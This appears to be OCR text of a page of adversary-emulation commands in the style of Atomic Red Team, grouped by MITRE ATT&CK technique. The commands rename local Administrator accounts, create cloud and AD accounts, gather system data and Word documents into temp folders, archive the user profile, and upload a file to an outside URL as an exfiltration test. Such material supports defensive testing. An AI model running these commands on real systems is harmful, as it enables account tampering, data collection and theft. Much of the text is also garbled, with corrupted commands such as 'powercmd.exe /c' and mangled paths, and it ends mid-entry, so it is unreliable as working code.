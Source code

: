 $fmm = Get-LocalGroupMember -Group Administrators |?{ $_.ObjectClass -match "User" -and $_.PrincipalSource -match "Local"} | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        $account = $member.Name -replace ".+\\\","" # strip computername\
        $originalDescription = (Get-LocalUser -Name $account).Description
        Set-LocalUser -Name $account -Description "atr:$account;$originalDescription".Substring(0,48) # Keep original name in description
        Rename-LocalUser -Name $account -NewName "HaHa_$x$y$z" # Required due to length limitation
        Write-Host "Successfully Renamed $account Account on " $Env:COMPUTERNAME
        }
    }
* aws iam create-group --group-name atomicredteam
aws iam add-user-to-group --user-name atomicredteam --group-name atomicredteam
* $x = Get-Random -Minimum 2 -Maximum 99
$y = Get-Random -Minimum 2 -Maximum 99
$z = Get-Random -Minimum 2 -Maximum 99
$w = Get-Random -Minimum 2 -Maximum 99

Import-Module ActiveDirectory
$account = "atr--$x$y$z"
New-ADUser -Name $account -GivenName "Test" -DisplayName $account -SamAccountName $account -Surname $account -Enabled:$False #{create_args}
Add-ADGroupMember "1010" $account
* powercmd.exe /c/management/honeyhash
##T1583: Acquire Infrastructure
##T1595: Active Scanning
##T1557: Adversary-in-the-Middle
##T1071: Application Layer Protocol
##T1010: Application Window Discovery
* C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe -out:%TEMP%\T1010.exe #{input_source_code}
%TEMP%\T1010.exe
* $x = Get-Process | Where-Object {$_.MainWindowTitle -ne ""} | Select-Object MainWindowTitle;
$a = New-Object -com "Shell.Application"; $b = $a.windows() | select-object LocationName;
write-host ($x | Format-List | Out-String) ($b | Format-List | Out-String)
##T1560: Archive Collected Data
* dir #{input_file} -Recurse | Compress-Archive -DestinationPath $env:USERPROFILE\T1560-data-ps.zip
* dir $env:USERPROFILE -Recurse | Compress-Archive -DestinationPath #{output_file}
##T1123: Audio Capture
* powercmd.exe /c.exe -Command WindowsAudioDevice-Powercmd.exe /c-Cmdlet
* python/collection/osx/osx_mic_record
##T1119: Automated Collection
* sc query type=service > %TEMP%\T1119_1.txt
doskey /history > %TEMP%\T1119_2.txt
wmic process list > %TEMP%\T1119_3.txt
tree C:\AtomicRedTeam\atomics > %TEMP%\T1119_4.txt
* Get-Service > $env:TEMP\T1119_1.txt
Get-ChildItem Env: > $env:TEMP\T1119_2.txt
Get-Process > $env:TEMP\T1119_3.txt
* mkdir %temp%\T1119_command_prompt_collection >nul 2>&1
dir c: /b /s .docx | findstr /e .docx
for /R c: %f in (*.docx) do copy %f %temp%\T1119_command_prompt_collection
* New-Item -Path $env:TEMP\T1119_powercmd.exe /c_collection -ItemType Directory -Force | Out-Null
Get-ChildItem -Recurse -Include *.doc | % {Copy-Item $_.FullName -destination $env:TEMP\T1119_powercmd.exe /c_collection}
* cmd.exe dir c: /b /s .docx | findstr /e .docx
##T1020: Automated Exfiltration
* $fileName = "#{file}"
$url = "https://google.com"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
* $fileName = "C:\temp\T1020_exfilFile.txt"
